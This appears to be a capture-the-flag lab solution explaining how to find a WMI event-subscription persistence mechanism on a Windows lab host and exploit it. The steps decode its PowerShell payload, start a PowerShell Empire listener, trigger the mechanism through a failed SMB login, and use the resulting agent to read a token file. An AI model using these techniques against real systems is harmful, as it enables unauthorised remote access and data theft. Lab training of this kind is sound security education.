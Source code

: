 # Lost WMI Footing Solution

 1. On the Desktop of the Kali machine there's a python program that allows you to query WMI objects from the Windows machine using the creds given
 ```powershell
	- ~/Desktop/wmiquery.py -namespace //./root/subscription User:scotty@@1@10.5.5.60
	- SELECT * FROM __EventFilter
	- SELECT * FROM __EventConsumer
	- __EventFilter contains the name needed to trigger the failed login
	- __EventConsumer contains the subscription name and the encoded powershell script that runs on failed login trigger
```
2. Decode the base64 string and then find the encoded URL string and decode that in order to get the port number for the listener
3. Power on powershell-empire and create a http listener on the port found in the decoded URL string
4. Use the fake login name and trigger a failed login attempt
```powershell
	- smbclient \\\\10.5.5.60\\C$ -U (LoginName) (any password)
```
- Once triggered, you will have an agent in powershell-empire
5. Change directories to C:\Users\User\Desktop and get the contents of token.txt
```powershell
	- agents
	- interact (agent name)
	- cd C:\Users\User\Desktop
	- cat token.txt
```

The needed info to answer the questions:
- port number
- login name
- subscription name
- flag from User (Windows machine) desktop